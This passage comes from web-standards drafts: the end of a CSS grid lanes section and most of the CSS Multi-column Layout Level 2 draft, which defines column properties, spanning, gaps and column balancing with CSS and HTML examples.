> **Note:** Whether an item is “first” or “last” depends only on placement (including `dense` packing adjustments), and is not affected by its actual position on the page, e.g. negative margins or relative positioning are not considered.

### 7.  Fragmentation {#css-grid-3:pagination}

#### 7.1.  Fragmentation in the stacking axis {#css-grid-3:stacking-axis-pagination}

Each grid axis track is fragmented independently in the stacking axis. If a grid item is fragmented, or has a forced break before/after it, then the running position for the tracks that it spans in the grid axis are set to the size of the fragmentainer so that no further items will be placed in those tracks. An item that is split into multiple fragments retains its placement in the grid axis for all its fragments. A grid item that is pushed, however, is placed again by the next grid container fragment. Placement continues until all items are placed or pushed to a new fragment.

> **Example:** Here’s an [example](../css-grid-3/examples/fragmentation-block-axis-example.html) illustrating fragmentation of grid lanes layout with stacking in its block axis. It renders like this:
>
> Visualization of fragmentation in a block-axis grid lanes layout.

#### 7.2.  Fragmentation in the Grid Axis {#css-grid-3:grid-axis-pagination}

Fragmentation in the grid axis of a grid lanes container is also supported. In this case the fragmentation behaves more like in a regular grid container; however, there’s a separate step to determine which grid-axis track each item is placed into, before fragmentation occurs.

> **Example:** Here’s an [example](../css-grid-3/examples/fragmentation-inline-axis-example.html) illustrating fragmentation of grid lanes layout with stacking in its inline axis. In this case the breaks occurs between the grid-axis rows. It renders like this:
>
> Visualization of fragmentation in the block axis with inline-axis grid lanes layout.

### 8.  Absolute Positioning {#css-grid-3:abspos}

[Grid-aligned absolute-positioned descendants](#css-grid-2:abspos-items) are supported in grid lanes containers just as for regular grid containers; however, in the stacking axis there exist only two lines (in addition to the `auto` lines) for placement:

- line 1 (line -2) corresponds to the start edge of the stacking range
- line 2 (line -1) corresponds to the end edge of the stacking range

> **Issue:** It might be useful to define a static position in the stacking axis. Maybe it could defined as the max (or min?) current running position of the grid-axis tracks at that point? Or the end of the item before it?

### 9.  Graceful Degradation {#css-grid-3:graceful-degradation}

Typically, a grid lanes design can be expected to degrade quite nicely in a UA that supports grid layout but not grid lanes layout.

> **Example:** Here’s an [example](../css-grid-3/examples/graceful-degradation-example.html) to illustrate this.
>
> ```css
> display: grid;
> display: grid-lanes; /* ignored in UAs that don't support grid lanes layout */
> grid-template-columns: 150px 100px 50px;
> ```
>
> This creates a layout with three columns, but will have "more gaps" in the block axis if the UA doesn’t support grid lanes layout. Here’s what it looks like with grid lanes support for comparison:
>
> Rendering of the example in a UA with grid lanes support.

---

## CSS Multi-column Layout Module Level 2 {#css-multicol-2}

- **Shortname:** `css-multicol-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-multicol-2/](https://drafts.csswg.org/css-multicol-2/)
- **Published TR:** [https://www.w3.org/TR/css-multicol-2/](https://www.w3.org/TR/css-multicol-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-14

### 1.  Introduction {#css-multicol-2:introduction}

(This section is not normative.)

This module describes **multi-column layout** in CSS. By using functionality described in this document, style sheets can declare that the content of an element is to be laid out in multiple columns.

Other layout methods in CSS, when applied to a parent element, change the display properties of the direct children. For example if a three column grid layout is created, the direct children of the grid container become grid items and are placed into the column tracks, one element per cell with additional rows created as needed.

The child elements of a multi-column container however continue in normal flow, that flow is arranged into a number of columns. These columns have a flexible inline size, and therefore respond to available space by changing the size or number of columns displayed.

Multi-column layouts are easy to describe in CSS. Here is a simple example:

> **Example:** ```
> body { column-width: 12em }
> ```
>
> In this example, the `body` element is set to have columns at least `12em` wide. The exact number of columns will depend on the available space.

The number of columns can also be set explicitly in the style sheet:

> **Example:** ```
> body { column-count: 2 }
> ```
>
> In this case, the number of columns is fixed and the column widths will vary depending on the available width.

If a `column-height` is set, and there is more content that will fit in one row of columns at the specified height, multiple rows of columns are created in the block direction.

> **Example:** ```
> body { column-height: 10em; column-count: 3 }
> ```
>
> In this case, the number of columns is fixed and the column widths will vary depending on the available width. If there is more content than will fit into three columns of height 10em, a new row of columns is created in the block direction.

The shorthand `columns` property can be used to set all three properties in one declaration.

> **Example:** In these examples, the number of columns, the width of columns, and both the number and width of columns, and the width and height of columns are set, respectively:
>
> ```
> body { columns: 2 }
> body { columns: 12em }
> body { columns: 2 12em }
> body { columns: 12em / 14em }
> ```

The `column-fill` and `column-span` properties give style sheets a wider range of visual expressions in multi-column layouts.

> **Example:** In this example, columns are set to be balanced, i.e., to have approximately the same length. Also, `h2` elements are set to span across all columns.
>
> ```
> div { column-fill: balance }
> h2 { column-span: all }
> ```

If all column properties have their initial value, the layout of an element will be identical to a multi-column layout with only one column.

> **Example:** Column gaps (diagonal hatching) and column rules are shown in this sample rendition of a multi-column container with padding (cross hatching). The hatched areas are present for illustrational purposes only. In actual implementations these areas will be determined by the background, the second image shows a rendering of a multi-column container with column-rules.
>
>  
>
> A multi-column layout with the non-visible column-span and padding inside the multicol container highlighted.
>
> 
>
> The same layout as in the first image, as it would be displayed by an implementation.

#### 1.1.  Value Definitions {#css-multicol-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Module Interactions {#css-multicol-2:interaction}

This document defines new features not present in earlier specifications. In addition, once final, it will replace and supersede the following:

- The [CSS Multi-Column Layout Module Level 1](#css-multicol-2)

### 3.  The multi-column model {#css-multicol-2:the-multi-column-model}

An element whose `column-width`, `column-count`, or `column-height` property is not `auto` establishes a **multi-column container** (or *multicol container* for short), and therefore acts as a container for multi-column layout.

In the traditional CSS box model, the content of an element is flowed into the content box of the corresponding element. Multi-column layout introduces a fragmentation context formed of anonymous fragmentation containers called **column boxes** (or *columns* for short). These column boxes establish an independent block formatting context into which the multi-column container’s content flows, and form the containing block for its non-positioned children.

> **Example:** In this example, the width of the image is set with these rules:
>
> ```
> img {
>   display: block;
>   width: 100%;
> }
> ```
>
> Given that the column box creates a new block formatting context, the `width` is calculated relative to the column box. Therefore the image will not overflow the column box:
>
> 
>
> The image is constrained by the column box that it is displayed in.

> **Example:** Given that the column box creates a new block formatting context, a top margin set on the first child element of a multicol container will not collapse with the margins of the multicol container.
>
> 
>
> The margin above the first paragraph has not collapsed, leaving a `1em` margin above the first line in the multicol container.

Floats that appear inside multi-column layouts are positioned with regard to the column box where the float appears.

> **Example:** In this example, this CSS fragment describes the presentation of the image:
>
> ```
> img {
>   display: block;
>   float: right;
> }
> ```
>
> In the HTML, the image appears after the sentence ending, "the leg of a chicken".
>
> 
>
> The image is floated inside the column box it appears in.

Content overflowing a column box in the block axis fragments and continues in the next column box.

> **Note:** Column boxes, which are anonymous boxes, do not become the containing block for absolutely positioned boxes. The `position` property, which establishes a containing block for such boxes, applies to the multicol container, it being the principal box.

> **Example:** In this example, the multi-column container has `position: relative` thus becoming the containing block. The image is a direct child of the multi-column container and has `position: absolute`. It takes positioning from the multi-column container and not from the column box.
>
> ```
> .container {
>   position: relative;
>   column-count: 3;
> }
> img {
>   position: absolute;
>   top: 20px;
>   left: 40px;
> }
> ```
>
> ![The absolutely positioned image is positioned by reference to the [=multi-column container=] not the [=column box=].](../css-multicol-2/images/column-not-containing-block.svg)
>
> The figure demonstrates that the absolutely positioned image is positioned by reference to the multicol container and not the column box.

Out-of-flow descendants of a multi-column container do affect column balancing, and the block-size of the multi-column container.

The column boxes are ordered in the inline base direction of the multicol container and arranged into **multicol rows**. A multicol row contains at least one **multicol line** or spanning element. The **column width** is the length of the column box in the inline direction. The **column height** is the length of the column box in the block direction. All column boxes in a line have the same column width, and all column boxes in a line have the same column height.

> **Note:** In text set using a vertical writing mode, the block direction runs horizontally. In a vertical writing mode columns are laid out horizontally, and the direction of the flow of blocks may be right to left, or left to right. The `column-width` property therefore refers to the inline size of the column, and not the physical horizontal width.

> **Example:** 
>
> A diagram showing the different ways columns may be arranged due to writing mode.  From left to right: horizontal-tb, vertical-rl, vertical-lr.

In the inline direction, within each multicol line in the multi-column container, adjacent column boxes are separated by a **column gap**, which may contain a **column rule**. In the block direction, multicol rows are separated by a **row gap**, which may contain a **row rule**. All column gaps in the same multi-column container are equal. All column rules in the same multi-column container are also equal, if they appear; column rules only appear between columns that both have content.

In the simplest case a multicol container will contain only one line of columns, inside one multicol row, and the height of each column will be equivalent to the used height of the multi-column container’s content box. However, fragmentation or spanners can split the content of the multicol row into multiple multicol lines.

If the multi-column container is paginated, the height of each column is constrained by the page and the content continues in a new line of column boxes on the next page; a column box never splits across pages.

If a multi-column container in continuous media is set to wrap, the height of each column is defined by the `column-height` property. If there is more content than will fit in a single row a new multicol row is created in the block direction, with columns of the size defined by the `column-height` property. If a row is only partially filled with content, the size defined by `column-height` is still maintained with empty space following the content.

When a *spanning element* divides the multi-column container: a new multicol line is created. The columns before the spanning element are balanced and shortened to fit their content. Content after the spanning element then flows into a new, subsequent multicol line of column boxes.

> **Example:** 
>
> A demonstration of how the spanning element divides the multicol container.

If the spanning element is larger in the block direction than the space available in the current multicol row, the row geometry is maintained. The spanner is allowed to cross the row boundary, over any gap, and into the next row.

A multi-column container therefore is a regular block container that establishes a new independent formatting context whose contents consist of one or more multicol rows, containing multicol lines and multicol spanners. Each multi-column line acts as a block-level box that establishes a **multi-column formatting context** for its column boxes; and each spanner acts as a block-level box that establishes an independent formatting context with its type depending on its `display` value as usual.

Nested multi-column containers are allowed, but there may be implementation-specific limits.

> **Note:** It is not possible to set properties/values on column boxes. For example, the background of a certain column box cannot be set and a column box has no concept of padding, margin or borders. Future specifications may add additional functionality. For example, columns of different widths and different backgrounds may be supported.

> **Note:** Multicol containers with column heights larger than the viewport may pose accessibility issues. See [Accessibility Considerations](#css-multicol-2:a11y) for more details.

### 4.  The number and size of columns {#css-multicol-2:the-number-and-width-of-columns}

Finding the number and size of columns is fundamental when laying out multi-column content. These properties are used to set the number and size of columns:

- `column-count`
- `column-width`
- `column-height`

A fourth property, `columns`, is a shorthand property which sets all of `column-width`, `column-height`, and `column-count`.

Other factors, such as explicit column breaks, content, column wrapping, and size constraints, may influence the actual number and size of columns.

#### 4.1. The Inline Size of Columns: the `column-width` property {#css-multicol-2:cw}

| Field | Value |
| --- | --- |
| Name: | **column-width** |
| [Value:](#css-values-4:value-defs) | auto \| `<length [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers except table wrapper boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto` or an absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property describes the width of columns in multicol containers.

****auto****

: means that the column width will be determined by other properties (e.g., `column-count`, if it has a non-auto value).

****`<length [0,∞]>`****

: describes the optimal column width. The actual column width may be wider (to fill the available space), or narrower (only if the available space is smaller than the specified column width). Negative values are not allowed. Used values will be clamped to a minimum of `1px`.

> **Example:** For example, consider this style sheet:
>
> ```
> div {
>   width: 100px;
>   column-width: 45px;
>   column-gap: 0;
>   column-rule: none;
> }
> ```
>
> There is room for two `45px` wide columns inside the `100px` wide element. In order to fill the available space the actual column width will be increased to `50px`.

> **Example:** Also, consider this style sheet:
>
> ```
> div {
>   width: 40px;
>   column-width: 45px;
>   column-gap: 0;
>   column-rule: none;
> }
> ```
>
> The available space is smaller than the specified column width and the actual column width will therefore be decreased.

To ensure that `column-width` can be used with vertical text, column width means the length of the line boxes inside the columns.

> **Note:** The reason for making `column-width` somewhat flexible is to achieve scalable designs that can fit many screen sizes. To set an exact column width, the column gap and the width of the multicol container (assuming horizontal text) must also be specified.

#### 4.2. The Block Size of Columns: the `column-height` property {#css-multicol-2:ch}

| Field | Value |
| --- | --- |
| Name: | **column-height** |
| [Value:](#css-values-4:value-defs) | auto \| `<length [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers except table wrapper boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto` or an absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property describes the height of columns in multicol containers.

****auto****

: means that the column height will be determined by the amount of content and other properties.

****`<length [0,∞]>`****

: describes the desired column height. Negative values are not allowed.

If you set `column-height` and `height` on a multicol container, you may end up with some additional space. The properties defined in the [CSS-ALIGN] specification detail how to deal with it.

When `column-height` is not 'column-height/auto' the size in the block direction is not flexible. If there is not enough content to fill a row of columns at the set size, empty space is left.

If a spanner is introduced that is taller than the set size, the row geometry will be maintained, and the spanner will overflow into the next row, crossing any `row-gap`.

#### 4.3. The Number of Columns: the `column-count` property {#css-multicol-2:cc}

| Field | Value |
| --- | --- |
| Name: | **column-count** |
| [Value:](#css-values-4:value-defs) | auto \| `<integer [1,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers except table wrapper boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property describes the number of columns of a multicol container.

****auto****

: means that the number of columns will be determined by other properties (e.g., `column-width`, if it has a non-auto value).

****`<integer [1,∞]>`****

: describes the optimal number of columns into which the content of the element will be flowed. Values must be greater than 0. If both `column-width` and `column-count` have non-auto values, the integer value describes the maximum number of columns.

> **Example:** ```
> body { column-count: 3 }
> ```

#### 4.4. The overflow direction: the `column-wrap` property {#css-multicol-2:cwr}

| Field | Value |
| --- | --- |
| Name: | **column-wrap** |
| [Value:](#css-values-4:value-defs) | auto \| nowrap \| wrap |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | multicol containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The column-wrap property controls the behavior of overflow columns. Overflow columns occur when there is more content than will fit in a single row of columns at the specified `column-height`, or inside a height defined by the multicol container.

****auto****

: If `column-height` is not 'column-height/auto' behaves as the value 'column-wrap/wrap' otherwise acts as 'column-wrap/nowrap'.

****nowrap****

: Overflow columns are created in the inline direction.

****wrap****

: Overflow columns create a new multicol row in the block direction.

> **Example:** ```
> body {
>   column-count: 3;
>   column-wrap: nowrap;
>   column-height: 10em;
> }
> ```
>
> This CSS creates a set of three columns. If there is more content than would fit in the 10em height of these columns, new columns are created in the inline direction even if there is room in the multicol container.

> **Example:** ```
> body {
>   column-count: 3;
>   column-wrap: wrap;
>   column-height: 10em;
> }
> ```
>
> This CSS creates a set of three columns. If there is more content than would fit in the 10em height of these columns, rather than overflowing in the inline direction, a new row of columns is created in the block direction, again at a max column-height of 10em. New rows repeat until all content is displayed.

> **Note:** The reading flow of a 2-dimensional multiple-column layout follows along the row, reading each column in row 1 in turn, then moving onto row 2, and so on. Authors should ensure that it’s clear to a reader how the content flows, particularly in situations where multiple rows are displayed on screen.

> **Issue:** The issue relating to the addition of this property is still open due to debate as to whether it’s required. [[Issue #11754]](https://github.com/w3c/csswg-drafts/issues/11754)

> **Issue:** What happens if you set a height on the multicol container, 'column-wrap: wrap' but no `column-height`? Options are 1: The `column-wrap` property is ignored. 2: 'column-height: auto' resolves to the available space in the multicol container and new rows of that size are created for the overflow, thus honoring the 'column-wrap/wrap' value. [[Issue #11754]](https://github.com/w3c/csswg-drafts/issues/11754)

#### 4.5. The `column-width`, `column-count`, and `column-height` Shorthand: The `columns` Property {#css-multicol-2:columns}

| Field | Value |
| --- | --- |
| Name: | **columns** |
| [Value:](#css-values-4:value-defs) | [ `<'column-width'>` \|\| `<'column-count'>` ] [ / `<'column-height'>` ]? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This is a shorthand property for setting `column-width`, `column-count`, and `column-height`. Omitted values are set to their initial values. This property also resets the `column-wrap` property to its initial value.

> **Example:** Here are some valid declarations using the `columns` property:
>
> ```
> columns: 12em;      /* column-width: 12em; column-count: auto */
> columns: auto 12em; /* column-width: 12em; column-count: auto */
> columns: 2;         /* column-width: auto; column-count: 2 */
> columns: 2 auto;    /* column-width: auto; column-count: 2 */
> columns: auto;      /* column-width: auto; column-count: auto */
> columns: auto auto; /* column-width: auto; column-count: auto */
> columns: 12em / 14em; /* column-width: 12em; column-height: 14em; */
> ```

#### 4.6. The Pseudo-algorithm {#css-multicol-2:pseudo-algorithm}

The pseudo-algorithm below determines the used values for `column-count` (N) and `column-width` (W). There is one other variable in the pseudo-algorithm: U is the used width of the multi-column container.

> **Note:** The used width U of the multi-column container can depend on the element’s contents, in which case it also depends on the computed values of the `column-count` and `column-width` properties. This specification does not define how U is calculated. Another module (probably the Basic Box Model [CSS3BOX] or the Box Sizing Module [CSS3-SIZING]) is expected to define this.

The `floor(X)` function returns the largest integer Y ≤ X.

```
(01)  if ((column-width = auto) and (column-count = auto) and (column-height = auto)) then
(02)      exit; /* not a multicol container */
(03)  if column-width = auto then
(04)      N := column-count
(05)  else if column-count = auto then
(06)      N := max(1,
(07)        floor((U + column-gap)/(column-width + column-gap)))
(08)  else
(09)      N := min(column-count, max(1,
(10)        floor((U + column-gap)/(column-width + column-gap))))
```

And:

```
(11)  W := max(0, ((U + column-gap)/N - column-gap))
```

For the purpose of finding the number of auto-repeated columns, the UA must floor the column size to a UA-specified value to avoid division by zero. It is suggested that this floor be 1px or less.

In fragmented contexts such as in paged media, user agents may perform this calculation on a per-fragment basis.

The used value for `column-count` is calculated without regard for explicit column breaks or constrained column heights, while the actual value takes these into consideration.

> **Example:** In this example, the actual column-count is higher than the used column-count due to explicit column breaks:
>
> ```
> div {
>   width: 40em;
>   columns: 20em;
>   column-gap: 0;
> }
>
> p {
>   break-after: column;
> }
> ```
>
> ```
> <div>
>   <p>one
>   <p>two
>   <p>three
> </div>
> ```
>
> 
>
> The computed column-count is auto, the used column-count is 2 and the actual column-count is 3.

> **Example:** The actual column-count may be lower than the used column-count. Consider this example:
>
> ```
> div {
>   width: 80em;
>   height: 10em;
>   columns: 20em;
>   column-gap: 0;
>   column-fill: auto;
> }
> ```
>
> ```
> <div>foo</div>
> ```
>
> The computed column-count is auto, the used column-count is 4, and the actual column-count is 1.

#### 4.7.  Stacking Context {#css-multicol-2:stacking-context}

All column boxes in a multi-column container are in the same stacking context and the drawing order of their contents is as specified in CSS 2.1. Column boxes do not establish new stacking contexts.

#### 4.8.  Styling Columns: the `::column` pseudo-element {#css-multicol-2:column-pseudo}

The **::column** pseudo-element represents the individual columns in a multi-column container. It only exists on multi-column containers.

A multi-column container has as many `::column` pseudo-elements as it has columns. They cannot be individually addressed; any styles applied to a multicol’s `::column` pseudo-elements apply to all of them on that element. Each `::column` has the same size and position as its corresponding column: the same size as the column’s available space in the inline axis and the container’s content box in the block axis. (It does not cover the gaps/rules between columns.)

`::column` pseudo-elements are treated as children of their multi-column container, without any contents. They *do not* wrap the contents of the column, just fill the same space.

The `::column` pseudo-element accepts only a very limited set of properties:

- `scroll-margin`, `scroll-snap-align`, and `scroll-snap-stop` (the scroll snap properties that apply to elements *inside* a scroll container)

Additionally, a `::column` pseudo-element can have a `::scroll-marker` pseudo-element of its own, as `::column::scroll-marker`. (Other pseudo-elements do not exist on `::column`.) Such `::scroll-marker` pseudo-elements inherit from the `::column` pseudo-element’s originating element, rather than the `::column` itself.

> **Note:** This list of properties and pseudo-elements that work on `::column` will likely be expanded in the future, as we develop more features that could usefully care about the *position* of a column without caring about the *contents*.

### 5. Column Gaps and Rules {#css-multicol-2:column-gaps-and-rules}

Column gaps and rules are placed between columns in the same multicol container. The length of the column gaps and column rules is equal to the column height. Column gaps take up space. That is, column gaps will push apart content in adjacent columns (within the same multicol container).

#### 5.1. Gutters Between Columns: the `column-gap` property {#css-multicol-2:cg}

The `column-gap` property is defined in [CSS3-ALIGN].

In a multi-column formatting context the used value of `normal` for the `column-gap` property is `1em`. This ensures columns are readable when the initial values are used. If there is a column rule between columns, it will appear in the middle of the gap.

#### 5.2. Gutters Between Rows: the `row-gap` property {#css-multicol-2:rg}

The `row-gap` property is defined in [CSS3-ALIGN].

In a multi-column formatting context the used value of `normal` for the `row-gap` property is `1em`. If there is a rule between rows, it will appear in the middle of the gap.

#### 5.3. The Color, Width, and Style of Column Rules: the gap decoration properties {#css-multicol-2:crc}

The gap decoration properties of `column-rule` and `row-rule`, along with their longhands `column-rule-color`, `row-rule-color`, `column-rule-style`, `row-rule-style`, `column-rule-width`, `row-rule-width` are defined in [CSS-GAPS].

### 6.  Column Breaks {#css-multicol-2:column-breaks}

When content is laid out in multiple columns, the user agent must determine where column breaks are placed. The problem of breaking content into columns is similar to breaking content into pages, which is described in CSS 2.1, section 13.3.3 [CSS21].

Three new properties are introduced to allow column breaks to be described in the same properties as page breaks: `break-before`, `break-after`, and `break-inside`.

#### 6.1. Controlling Fragmentation: the `break-before`, `break-after`, `break-inside` properties {#css-multicol-2:break-before-break-after-break-inside}

`break-before`, `break-after`, and `break-inside` are defined in [CSS3-BREAK].

### 7.  Spanning columns {#css-multicol-2:spanning-columns}

The `column-span` property makes it possible for an element to span across several columns. This specification adds `<integer>` to the values available in the previous level.

#### 7.1.  `column-span` {#css-multicol-2:column-span}

| Field | Value |
| --- | --- |
| Name: | **column-span** |
| [Value:](#css-values-4:value-defs) | none \| `<integer [1,∞]>` \| all \| auto |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | in-flow block-level elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property describes how many columns an element spans across. Values are:

****none****

: The element does not span multiple columns.

****all****

: The element forces a column break and is taken out of flow to span across all columns of the current multicol row in the same block formatting context. Content in the normal flow that appears before the element is automatically balanced across all columns in the immediately preceding multi-column line before the element appears, and any subsequent content flows into a new multi-column line after the element. The element establishes an independent formatting context.

  > **Note:** Whether the element establishes a new formatting context does not depend on whether the element is a descendant of a multicol or not. When `column-span` is `all`, it always does. This helps with robustness of designs to later revisions that remove the multicol, or when media queries turn the multicol off in some situations.

****`<integer [1,∞]>`****

: The element spans the specified number of columns. Values must be greater than 0. If the specified integer value is equal to, or larger than the number of columns in the multicol element, the number of columns spanned will be the same as if `column-span: all` had been specified.

  > **Issue:** This definition is insufficient.
  >
  > - Does `column-span: 1` count as `column-span: none`, or does it create a spanner (which is a BFC)?
  > - Which columns does it span?
  > - How does that affect height calculations, and interact with column-fill

****auto****

: The number of columns spanned by the element depends on its min-content outer size in the inline direction of the multi-column container. If it is smaller than the used value of `column-width`, this is the same as if `column-span: none` had been specified. Otherwise, the number of columns spanned is the smallest positive integer *n* for which `n × column-width + (n - 1) × column-gap` is larger than the min-content outer size. If this would be larger than the number of columns, the number of columns spanned will be the same as if `column-span: all` had been specified.

  > **Issue:** If `column-span: 1` does not do the same as `column-span: none`, should this behave as `column-span: 1` or as `column-span: none` when the element is small enough?

An element that spans more than one column is called a **multi-column spanning element** and the box it creates is called a **multi-column spanner**.

The containing block of the spanner is the multicol container itself. Consequently, in cases where the spanner itself does not establish a containing block for absolutely positioned boxes inside the spanner, their containing block chain skips directly to the multicol container (skipping any ancestors between the spanner and the multicol container).

Although the spanner is taken out-of-flow, this does not affect the [painting order](#css2) [CSS21] of the spanning element.

> **Example:** In this example, an `h2` element has been added to the sample document after the sixth sentence (i.e., after the words "the leg of a"). This styling applies:
>
> ```
> h2 { column-span: all; background: silver }
> ```
>
> By setting `column-span` to `all`, all content that appears before the `h2` element is shown above the `h2` element.
>
> 
>
> The h2 element is set to column-span: all
>
> Note that because the spanner splits the multi-column line, it also interrupts any column rules (which are only drawn between columns in a multi-column line).

A spanning element may be lower than the first level of descendants as long as they are part of the same formatting context, and there is nothing between the spanning element and multicol container that establishes a containing block for fixed position descendants.

> **Example:** In this example, the element with `column-span: all` is inside an element with `transform: rotate(90deg)`. The transform establishes a containing block for fixed position descendents, therefore a spanner will not be created.
>
> ```
> <article>
>   <section>
>     <div class="spanner">Attempted spanner</div>
>   </section>
> </article>
> ```
>
> ```
> article {
>   columns: 2;
> }
>
> section {
>   transform: rotate(90deg);
> }
>
> .spanner {
>   column-span: all;
>   background: silver;
> }
> ```

If the fragment before the spanner is empty, nothing special happens; the top margin/border/padding is above the spanning element, as an empty fragment.

> **Example:** In this example the multicol container is the `article` element. Inside this parent is a paragraph and then a section element. The section contains an `h2` heading set to `all` this spans all three columns while the containing section remains inside the column boxes.
>
> The `h2` is the first child of the section. This means that the margin, border (shown in red in the diagram) and padding on this section appear before the spanning `h2` as an empty fragment.
>
> ```
> <article>
>   <p>...</p>
>   <section>
>     <h2>An h2 element</h2>
>     <p>...</p>
>   </section>
> </article>
> ```
>
> ```
> section {
>   border: 2px solid red;
>   margin-top: 65px;
>   padding-top: 20px;
> }
>
> h2 {
>   column-span: all;
>   background: silver
> }
> ```
>
> 
>
> The `h2` element is set to `column-span: all`, the section has a red border and top padding and margin

A spanning element takes up more space than the element would take up otherwise. When space is limited, it may be impossible to find room for the spanning element. In these cases, user agents may treat the element as if `none` had been specified on this property.

> **Example:** In this example, the `h2` element appears later in the content, and the height of the multicol container is constrained. Therefore, the `h2` element appears in the overflow and there is not room to make the element spanning. As a result, the element appears as if `column-span: none` was specified.
>
> 
>
> The h2 element is in an overflow column and appears as if column-span none is specified

> **Example:** This example is similar to the previous example, except that the H2 element appears naturally in the last column. Still, there is not enough room to make the element spanning.
>
> 
>
> The h2 element is in the final column and appears as if column-span none is specified

> **Example:** In fragmented contexts spanning elements are honored in all fragments. In this example, we are in paged media, and the first three paragraphs have column breaks after them. A spanning `H2` element appears after the fourth paragraph.
>
> 
>
> This would appear on the first page
>
> 
>
> This would appear on the second page

Spanners are block-level boxes therefore the margins of two adjacent spanners will collapse with each other. The margins of two spanners separated only by an absolutely positioned item will collapse with each other, as absolutely positioned items do not create column boxes. As column boxes establish a new block formatting context, margins on elements inside a column box will not collapse with the margin of a spanner.

> **Example:** Spanners establish new formatting contexts, but their margins can be changed by their surroundings. In this example, two spanners naturally end up at the top of a page. The top margin of the first spanner is truncated due to adjoining an unforced break. The margins between the two spanners collapse with each other. However, the bottom margin of the second spanner does not collapse with the top margin of the subsequent element.
>
> ```
> h2 {
>   margin: 16px 0;
>   column-span: all;
>   background: silver
> }
> p { margin-top: 16px }
> ```
>
> 
>
> Margins collapse between two spanning elements, but not the bottom margin of a spanner and top margin of next element.

### 8.  Filling Columns {#css-multicol-2:filling-columns}

There are two strategies for filling columns: columns can either be balanced, or not. If columns are balanced, user agents should try to minimize variations in column height, while honoring forced breaks, `widows` and `orphans`, and other properties that may affect column heights. If columns are not balanced, they are filled sequentially; some columns may end up partially filled, or with no content at all.

#### 8.1. Column Balancing: the `column-fill` property {#css-multicol-2:cf}

| Field | Value |
| --- | --- |
| Name: | **column-fill** |
| [Value:](#css-values-4:value-defs) | auto \| balance \| balance-all |
| [Initial:](#css-cascade-6:initial-values) | balance |
| [Applies to:](#css-cascade-5:applies-to) | multicol containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies whether content in a multi-column line that does *not* immediately precede a spanner is balanced across columns or not.

The values are:

****balance****

: Balance content equally between columns, as far as possible. In fragmented contexts, only the last fragment is balanced.

****balance-all****

: Balance content equally between columns, as far as possible. In fragmented contexts, all fragments are balanced.

****auto****

: fill columns sequentially

In continuous contexts, this property does not have any effect when there are overflow columns.

> **Example:** In this example, an article only has one short paragraph which fits on three lines. The three lines are displayed in three different columns due to column balancing.
>
> ```
> article {
>   width: 60em;
>   height: auto;
>   columns: 4;
>   column-fill: balance;
> }
> ```
>
> 
>
> Three lines displayed in three columns due to column balancing.

> **Example:** In this example, column balancing is turned off, and the article has a height:
>
> ```
> article {
>   width: 60em;
>   height: 4em;
>   columns: 4;
>   column-fill: auto;
> }
> ```
>
> As a result, the first column is filled with all content:
>
> 
>
> No balancing so the whole text is shown in one paragraph.

> **Example:** In this example, an article has two paragraphs: first a long one, then a shorter one. This code is applied:
>
> ```
> article {
>   width: 60em;
>   height: auto;
>   columns: 4;
>   column-fill: balance;
> }
>
> p {
>   break-after: column;
> }
> ```
>
> The shortest column height possible contains five lines of text. After the column height has been established, columns are filled sequentially. As a result, the third column is as high as the first two columns, while the last column ends up being significantly shorter.
>
> 
>
> Once column height is established, columns are filled sequentially.

> **Example:** ```
> article {
>   width: 60em;
>   height: auto;
>   columns: 4;
>   column-fill: balance;
> }
> ```
>
